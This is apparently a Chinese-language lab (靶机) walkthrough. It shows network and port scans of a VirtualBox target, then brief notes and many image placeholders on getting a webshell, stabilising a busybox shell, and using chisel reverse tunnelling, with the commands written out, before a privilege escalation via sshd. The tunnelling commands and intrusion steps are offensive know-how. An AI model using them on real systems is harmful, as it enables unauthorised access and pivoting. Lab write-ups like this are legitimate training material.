## 网段扫描
```
root@LingMj:/home/lingmj# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:13       (Unknown: locally administered)
192.168.56.100  08:00:27:20:f0:a0       (Unknown)
192.168.56.144  08:00:27:c9:9b:73       (Unknown)

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.942 seconds (131.82 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:/home/lingmj# nmap -p- -sC -sV 192.168.56.144
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-07 19:53 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.144
Host is up (0.0030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Site doesn't have a title (text/html).
5678/tcp open  rrac?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=86400
|     Last-Modified: Sat, 08 Feb 2025 00:46:25 GMT
|     ETag: W/"7b7-194e305a674"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 1975
|     Vary: Accept-Encoding
|     Date: Sat, 08 Feb 2025 00:54:55 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <script type="module" crossorigin src="/assets/polyfills-DfOJfMlf.js"></script>
|     <meta charset="utf-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width,initial-scale=1.0" />
|     <link rel="icon" href="/favicon.ico" />
|     <style>@media (prefers-color-scheme: dark) { body { background-color: rgb(45, 46, 46) } }</style>
|     <script type="text/javascript">
|     window.BASE_PATH = '/';
|     window.REST_ENDPOINT = 'rest';
|     </script>
|     <script src="/rest/sentry.js"></script>
|     <script>!function(t,e){var o,n,
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Vary: Accept-Encoding
|     Date: Sat, 08 Feb 2025 00:54:56 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5678-TCP:V=7.94SVN%I=7%D=2/7%Time=67A6AB64%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,8DC,"HTTP/1\.1\x20200\x20OK\r\nAccept-Ranges:\x20bytes\r\nCa
SF:che-Control:\x20public,\x20max-age=86400\r\nLast-Modified:\x20Sat,\x200
SF:8\x20Feb\x202025\x2000:46:25\x20GMT\r\nETag:\x20W/\"7b7-194e305a674\"\r
SF:\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x2019
SF:75\r\nVary:\x20Accept-Encoding\r\nDate:\x20Sat,\x2008\x20Feb\x202025\x2
SF:000:54:55\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<ht
SF:ml\x20lang=\"en\">\n\t<head>\n\t\t<script\x20type=\"module\"\x20crossor
SF:igin\x20src=\"/assets/polyfills-DfOJfMlf\.js\"></script>\n\n\t\t<meta\x
SF:20charset=\"utf-8\"\x20/>\n\t\t<meta\x20http-equiv=\"X-UA-Compatible\"\
SF:x20content=\"IE=edge\"\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content
SF:=\"width=device-width,initial-scale=1\.0\"\x20/>\n\t\t<link\x20rel=\"ic
SF:on\"\x20href=\"/favicon\.ico\"\x20/>\n\t\t<style>@media\x20\(prefers-co
SF:lor-scheme:\x20dark\)\x20{\x20body\x20{\x20background-color:\x20rgb\(45
SF:,\x2046,\x2046\)\x20}\x20}</style>\n\t\t<script\x20type=\"text/javascri
SF:pt\">\n\t\t\twindow\.BASE_PATH\x20=\x20'/';\n\t\t\twindow\.REST_ENDPOIN
SF:T\x20=\x20'rest';\n\t\t</script>\n\t\t<script\x20src=\"/rest/sentry\.js
SF:\"></script>\n\t\t<script>!function\(t,e\){var\x20o,n,")%r(HTTPOptions,
SF:183,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20de
SF:fault-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nVary:\x
SF:20Accept-Encoding\r\nDate:\x20Sat,\x2008\x20Feb\x202025\x2000:54:56\x20
SF:GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</hea
SF:d>\n<body>\n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(R
SF:TSPRequest,183,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Po
SF:licy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143
SF:\r\nVary:\x20Accept-Encoding\r\nDate:\x20Sat,\x2008\x20Feb\x202025\x200
SF:0:54:56\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html
SF:\x20lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</ti
SF:tle>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</ht
SF:ml>\n");
MAC Address: 08:00:27:C9:9B:73 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.29 seconds
```

## 获取webshell
  

  

  
  

>随便填
>
  
  
  
  
  
  
  
  
  

>只有busybox
>
  
  

>没有script 我在思考如何稳定这个shell，因为直接利用socat和chisel转发出来会没有东西
>
  
  
  

>可以看到我的socat没成功，主要是因为终端不稳定
>
  
  

>这里看到我的chisel打洞回来了
>

```
./chisel server -p 2022 --reverse
./chisel client 192.168.56.110:2022 R:2222:172.17.0.1:22 &
```

  



  

>想半天了，发现是旧密钥条问题，没有重新加载到id
>


## 提权
  

>这个用和有uid的权限
>

  
  
  
  
  

>看来是sshd的问题，利用一下就吧ssh带出来了，之前的靶机就有这个好像是jan吧
>
  
  
  
  
  

>当然这里可以写一个脚本去做,更panghu的靶机一个原理
>
  

>试一下拿shell，不行就算了
>
